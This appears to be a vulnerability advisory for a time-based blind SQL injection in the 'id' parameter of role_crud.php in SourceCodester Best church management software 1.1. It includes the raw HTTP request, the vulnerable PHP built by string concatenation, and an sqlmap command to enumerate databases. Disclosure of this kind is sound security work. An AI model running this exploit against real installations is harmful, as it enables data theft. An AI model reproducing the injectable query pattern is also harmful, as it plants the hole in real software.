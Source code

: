 # Code Source
https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
# Description
A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/app/role_crud.php`. Affected is file `/admin/app/role_crud.php`,The manipulation of the argument id leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

# Request
```
POST /admin/app/role_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

update=1&id=*
```

# Affect code(`/admin/app/role_crud.php`)
```
......
if (isset($_POST['update'])) {
      
      
     extract($_POST);
     $stmt = $conn->prepare("delete  from permission_role where group_id='".$_POST['id']."'");
    $stmt->execute();

    $stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");
    $stmt->execute();

    $checkItem = $_POST["checkItem"];
    //print_r($_POST);
    $a = count($checkItem);  
    for($i=0;$i<$a;$i++){
    $id = $_POST['id'];

        $sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";
        $execute = $conn->query($sql);
        
    }
    
        $_SESSION['update'] = "update";
        header("location:../manage_role.php");
}
......
```

# Exploit
```
python sqlmap.py -r .\1.txt --dbs
```
![图片](https://github.com/user-attachments/assets/21d238f1-5481-41da-8d33-b0b544ae5f22)

![图片](https://github.com/user-attachments/assets/a1bf1402-95fc-45b4-aa7c-f3c36d1d6ae2)

